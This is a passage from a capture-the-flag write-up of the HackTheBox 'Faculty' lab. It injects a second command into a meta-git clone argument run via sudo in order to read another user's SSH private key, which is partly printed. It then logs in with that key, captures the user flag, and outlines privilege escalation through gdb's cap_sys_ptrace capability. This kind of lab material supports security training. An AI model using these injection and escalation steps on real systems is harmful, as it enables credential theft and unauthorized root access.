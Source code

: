 We see the user flag and a .ssh folder, let's get the SSH private key so we can log in as the developer user:

```sh
-bash-5.0$ sudo -u developer /usr/local/bin/meta-git clone 'pencer | cat ~/.ssh/id_rsa'
<SNIP>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxDAgrHcD2I4U329//sdapn4ncVzRYZxACC/czxmSO5Us2S87dxyw
izZ0hDszHyk+bCB5B1wvrtmAFu2KN4aGCoAJMNGmVocBnIkSczGp/zBy0pVK6H7g6GMAVS
<SNIP>
```

## SSH Access As Developer

Copy that to a file on Kali, remember to chmod 600 then use it to log in as developer:

```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# ssh -i id_rsa developer@10.10.11.169
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

  System information as of Thu Jul 21 23:20:16 CEST 2022

Last login: Thu Jul 21 23:20:08 2022 from 10.10.14.207
-bash-5.0$ 
```

## User Flag

Let's grab the user flag:

```sh
-bash-5.0$ cat user.txt 
889d845e4045c5cf146df52a896e6df0
```

## Cap_sys_ptrace

The path to root is actually really simple. You would have found this using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is our usual go to method of looking for things that are out of the ordinary. I found it by looking at capabilities:

```sh
-bash-5.0$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/gdb = cap_sys_ptrace+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

We can see gdb has the cap_sys_ptrace capability, which is covered by HackTricks [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace). All we need is a process running as root. We can then attach gdb to it and make it call the system function as root.
